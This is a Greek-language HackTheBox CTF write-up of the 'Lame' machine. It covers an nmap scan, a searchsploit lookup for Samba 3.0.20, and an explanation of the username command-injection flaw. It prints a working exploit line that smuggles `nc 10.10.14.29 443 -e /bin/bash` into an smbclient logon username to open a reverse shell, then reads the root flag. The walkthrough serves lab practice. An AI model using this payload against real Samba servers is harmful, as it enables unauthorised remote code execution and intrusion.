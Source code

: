```yaml
---
title: Lame
date: 2020-10-01 10:00:00 +0300
categories: [HackTheBox, CTF]
tags: [htb,ctf,begginer track]     # TAG names should always be lowercase
---
```


![Desktop View](/assets/img/sample/HTC/lame.png)

### Host discovery
Για το host descovery θα χρησιμοποιησουμε το nmap!
```shell
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.3 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports 10.10.10.3 
```
![Desktop View](/assets/img/sample/HTC/nmap_lame.png)

Απο το παραπανω αποτέσμα βλέπουμε πως στην πορτα 445 τρέχει samba στην έκδοση η οποια οπως φαίνεται παρακάτω ειναι vulnarable

## SAMBA Exploit

```shell
searchsploit samba 3.0.20
```
> για να μπορείς να συνδεθείς στο samba πρέπει να κάνεις το παρακάτω configuration.
```shell
vi /etc/samba/smb.conf
```
και πρόσθεσε 

`client min protocol = CORE`

`client max protocol = SMB3`

![Desktop View](/assets/img/sample/HTC/searchsploit_lame_samba.png)

Αναλύοντας τον κώδικα ουσιαστικά βλέπουμε οτι το πρόβλημα είναι οτι δέχεται "απαγορευμένους χαρακτήρες" ως username

όταν λοιπόν δώσουμε ως 

> username = "/=`nohup " + payload.encoded + "`" 

μας επιτρέπει να εκτελέσουμε εντολές linux.

## exploit

Αρχικά ξεκινάμε τον listener μας.
```shell
nc -lnvp 443
```
Έπειτα θα δοκιμάσουμε να κάνουμε login με το παραπάνω 'username'
```shell
sudo smbclient //10.10.10.3/
logon "./=`nohup nc 10.10.14.29 443 -e /bin/bash`"
```
![Desktop View](/assets/img/sample/HTC/smb_client_lame.png)
![Desktop View](/assets/img/sample/HTC/root_login_lame.png)

Οπότε το exploit λειτούργησε.
Τέλος για να πάρουμε τα flags.

```shell
cat /root/root.txt
cat /home/makis/user.txt
```
![Desktop View](/assets/img/sample/HTC/flags_lame.png)

> Αυτός είναι ο δύσκολος τρόπος. Ο τρόπος με το metasploit είναι τόσο easy που δεν αξίζει κάν να το αναφέρω.


